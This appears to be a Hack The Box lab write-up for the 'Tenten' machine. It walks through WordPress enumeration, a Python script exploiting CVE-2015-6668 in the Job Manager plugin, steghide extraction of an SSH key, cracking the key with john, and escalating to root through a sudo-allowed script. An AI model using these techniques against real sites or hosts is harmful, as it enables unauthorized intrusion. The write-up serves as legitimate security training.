 ![logo](/logo.png)

# [Tenten- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 22 Mar 2017 as the eight machine on HTB,Tenten created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *ssh
  *Apache 
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/tenten 10.10.10.10
```

###### Output 

![](/Linux/Linux-Medium/Tenten/Screenshots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/tenten 10.10.10.10                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 08:45 EAT
Nmap scan report for 10.10.10.10
Host is up (0.33s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://tenten.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.84 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu Linux`and its running an `Apache httpd 2.4.18`.  With a host name of [http://tenten.htb](http://tenten.htb)

port[22]- ssh
port[80]-  http

so first thing firdt lets add the hostname to our `/etc/hosts`

![](/Linux/Linux-Medium/Tenten/Screenshots/etc.png)


When we navigate to [http://tenten.htb](http://tenten.htb) we find out that it a wordpress page 

![](Linux/Linux-Medium/Tenten/Screenshots/wordpress.png)

Now that its running a wordpress we just going to do an automated script for wordpress to check for vulnerabilities.

```sh
wpscan --url http://tenten.htb -e ap --plugins-detection aggressive
```

![](/Linux/Linux-Medium/Tenten/Screenshots/wpsacan.png)

looking at the now results we find that it has a readme which specifies that wordpress is version `4.7`

![](/Linux/Linux-Medium/Tenten/Screenshots/wordpressv.png)

now after doing some search i found out that their is a page in jobs where we can access other pages by just changing the `uid` of the page 

# Exploitation


![](/Linux/Linux-Medium/Tenten/Screenshots/Uid.png)
![](/Linux/Linux-Medium/Tenten/Screenshots/uid1.png)

now lets go back to the previous page and upload something so that we can be able to do a for loop to check for It 

![](/Linux/Linux-Medium/Tenten/Screenshots/Application.png)

now we generate a for loop to check for the application we submitted.

```sh
for i in $(seq 1 20); do echo -n "$i: "; curl -s http://tenten.htb/index.php/jobs/apply/$i/ | grep '<title>'; done
```

![](Linux/Linux-Medium/Tenten/Screenshots/forloop.png)

As we can see that is what we uploaded but when we try to look for it in the web browser we find that we are unable so we look for a script that abuses the Job manager [exploit](https://gist.github.com/DoMINAToR98/4ed677db5832e4b4db41c9fa48e7bdef) we modify for ranges and file types.

```sh
import requests

print("""  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
""")

website = input('Enter a vulnerable website: ')
filename = input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2017, 2019):
    for i in range(3, 13):
        for extension in {'jpeg', 'png', 'jpg'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code == 200:
                print("[+] URL of CV found! " + URL)
```

so by using the script above we get the url for `HackerAccessGranted`

![](/Linux/Linux-Medium/Tenten/Screenshots/url.png)

By browsing the page we get an Image 

![](Linux/Linux-Medium/Tenten/Screenshots/hackersgranted.png)

so we need to save the image because so that we can check it it store any information 

```sh
steghide extract -sf HackerAccessGranted.jpg
```

it looks like someone hide a rsa text to the image

![](/Linux/Linux-Medium/Tenten/Screenshots/rsa.png)

now we need to crack the `id_rsa` but first we make it crackable with `john`

```sh
ssh2john id_rsa
```

![](/Linux/Linux-Medium/Tenten/Screenshots/ssh2john.png)

now we copy this in to a new file and be able to crack it with john and default kali linux rockyou.txt wordlist.

```sh
john id_rsa_john_encrypted --wordlist=/usr/share/wordlists/rockyou.txt 
```

![](/Linux/Linux-Medium/Tenten/Screenshots/john.png)

now we use the password and the `id_rsa` to log in as root.

```sh
chmod 600 id_rsa
ssh -i id_rsa root@10.10.10.10
```

![](/Linux/Linux-Medium/Tenten/Screenshots/rootfail.png)

but it fails but we rember their was a user called `takis` from the blog post so lets log in as him

![](/Linux/Linux-Medium/Tenten/Screenshots/tarkis.png)

we can get the user flag from the user 

![](/Linux/Linux-Medium/Tenten/Screenshots/userflag.png)

#  Privillage Escalation

after trying `takis` password on root it resufes so what i do I just run  `sodo -l` which will show if their is something that i can run without root privillages.

```sh
sudo -l
```

![](/Linux/Linux-Medium/Tenten/Screenshots/privillage.png)

so let me check the file so that we se what it does 

![](/Linux/Linux-Medium/Tenten/Screenshots/binbash.png)

it just does a `bin/bash` and enable us to run comands so lets run it

![](/Linux/Linux-Medium/Tenten/Screenshots/root.png)

and just that way we are root.

![](/Linux/Linux-Medium/Tenten/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------
